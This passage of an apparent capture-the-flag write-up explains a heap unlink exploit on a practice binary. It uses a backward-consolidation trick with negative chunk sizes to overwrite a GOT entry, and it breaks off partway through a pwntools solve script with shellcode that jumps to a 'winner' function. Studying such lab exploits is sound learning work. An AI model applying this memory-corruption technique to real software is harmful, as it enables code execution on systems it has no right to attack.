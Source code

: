 ```c
    .....
}

```

We need just on consolidation (one unlink) to write to **GOT**, so we will adjust our exploit to use the backward consolidation.

Chunk **c**:

```
0xf7e69050:	0xfffffffc	0x00000029	0x00000000	0x43434343
0xf7e69060:	0x00434343	0x00000000	0x00000000	0x00000000
```

For **prevsize** we will write 0xfffffffc = -4 to jump to 0xf7e69050+4 = 0xf7e69054 which will be the start of previous chunk.

Now **unlink** will look for **FD**  at 0xf7e69054 + 8 = **0xf7e6905c** and **BK** 0xf7e69054 + 12 = **0xf7e69060**, so we will write those addresses there.

**FD** will be puts_address-12 because at **unlink** [FD + 12] = BK.

**BK** will be just shellcode_address ([BK + 8] will be overwritten but we don't care as our shellcode will be just 6 bytes long).

With that we are done with backward consolidation, now we need to adjust the **size** value to jump to an address which is in use (not free) to avoid calling **unlink** again which might cause a segmentation fault.

Here we will adjust the size to jump to chunk **a**, before forward consolidation the code first checks  **nextinuse** which will check the **prev in use** flag of chunk **b** to check if chunk **a** if free or not, here it's not so the code will just avoid the forward consolidation. the difference between chunk **a** and **c** is 0xf7e69050 - 0xf7e69000 = 80 so **chunk_size** of **c** will be **0xffffffb0 = -80**.

# Solution:

```python
# solve.py

from pwn import *

puts_addr = 0x804c13c
shellcode_addr = 0xf7e6900c

'''
  push 0x80487d5      # winner_address
  ret
'''
shellcode = '\x68\xd5\x87\x04\x08\xc3'


buff = ""

# first chunk
buff += 'AAAA'			# This will be overwritten with FD when free(a)
buff += shellcode
buff += ' '

# second chunk
buff += 'B'*32			# Fill the second chunk
buff += p32(0xfffffffc)		# prevsize of third chunk = -4 to jump inside itself when consolidating backward
buff += p32(0xffffffb0)		# size of third chunk = -80 to jump to first chunk when consolidating forward
buff += ' '
```